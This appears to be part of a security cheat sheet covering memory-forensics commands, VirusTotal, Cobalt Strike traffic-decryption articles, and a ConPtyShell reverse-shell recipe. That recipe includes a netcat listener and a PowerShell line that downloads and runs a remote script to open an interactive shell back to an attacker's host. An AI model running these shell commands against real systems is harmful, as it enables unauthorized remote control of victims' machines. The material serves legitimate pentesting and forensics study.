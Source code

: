 ### Volatility
```
vol -f memory.dmp scan_name | tee output_scan
```

### Bulk Extractor
```bash
bulk_extractor -o bulk_output memory.dmp
```

# Virus
### Virus Total
> Analyse suspicious files, domains, IPs and URLs to detect malware and other breaches, automatically share them with the security community. 
>
> VirusTotal aggregates many antivirus products and online scan engines called Contributors

- [VirusTotal Site](https://www.virustotal.com/gui/home/upload)

### Cobalt Strike
- [Cobalt Strike: Using Known Private Keys To Decrypt Traffic – Part 1](https://blog.nviso.eu/2021/10/21/cobalt-strike-using-known-private-keys-to-decrypt-traffic-part-1/)
- [Cobalt Strike: Using Known Private Keys To Decrypt Traffic – Part 2](https://blog.nviso.eu/2021/10/27/cobalt-strike-using-known-private-keys-to-decrypt-traffic-part-2/)
- [Cobalt Strike: Using Process Memory To Decrypt Traffic – Part 3](https://blog.nviso.eu/2021/11/03/cobalt-strike-using-process-memory-to-decrypt-traffic-part-3/)

# Reverse shell
### ConPtyShell
> ConPtyShell is a Fully Interactive Reverse Shell for Windows systems. *[source](https://github.com/antonioCoco/ConPtyShell)*

Server :
```bash
stty raw -echo; (stty size; cat) | nc -lvnp port
```
Client with internet access: 
```bash
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell ip port
```
without : create shell.ps1, paste the Invoke-ConPtyShell.ps1, add '**Invoke-ConPtyShell ip port**' on a new line

# Useful links
Interactive Windows cheatsheet : [Wadcoms](https://wadcoms.github.io/)


